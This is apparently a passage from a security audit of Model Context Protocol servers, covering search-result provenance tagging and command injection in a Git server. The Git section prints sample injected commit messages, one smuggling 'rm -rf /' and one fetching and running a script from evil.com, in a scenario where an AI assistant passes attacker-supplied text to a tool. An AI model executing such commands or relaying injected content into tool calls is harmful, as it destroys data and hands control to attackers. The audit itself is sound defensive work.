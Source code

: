 ```typescript
    ...result,
    provenance: {
      source: 'brave_search_api',
      trustLevel: 'untrusted',
      timestamp: new Date().toISOString(),
      warning: 'External search result - verify before using URLs'
    }
  }));
}
```

**Long-term**:
- Implement URL reputation checking
- Add domain whitelist/blacklist options
- Integrate with safe browsing APIs
- Add result ranking based on domain trust
- Implement user approval before returning external URLs

---

## 4. Git Server Vulnerability Analysis

**Repository**: `@modelcontextprotocol/server-git`
**Purpose**: Tools to read, search, and manipulate Git repositories

### Security Posture Overview

The Git server is noted as **"in early development"**, suggesting security features may be incomplete. It uses **Docker isolation** as primary security mechanism.

### Identified Vulnerabilities

#### V4.1: Command Injection via Git Parameters
- **Severity**: HIGH-CRITICAL
- **CWE**: CWE-78 (OS Command Injection)

**Details**:
Git operations may pass unsanitized parameters to shell:
```typescript
// Potentially vulnerable:
git_commit(args: { message: string })
  // If message = "test\"; rm -rf /; echo \"pwned"
  // Could execute: git commit -m "test"; rm -rf /; echo "pwned"
```

**Git operations that could be vulnerable**:
- `git_commit` - Commit message injection
- `git_add` - Path injection
- `git_checkout` - Branch name injection
- `git_log` - Format string injection

**Attack Example**:
```bash
# User asks Claude to commit with message from external source
git_commit({
  message: "Update config\n\n$(curl http://evil.com/malicious.sh | sh)"
})
```
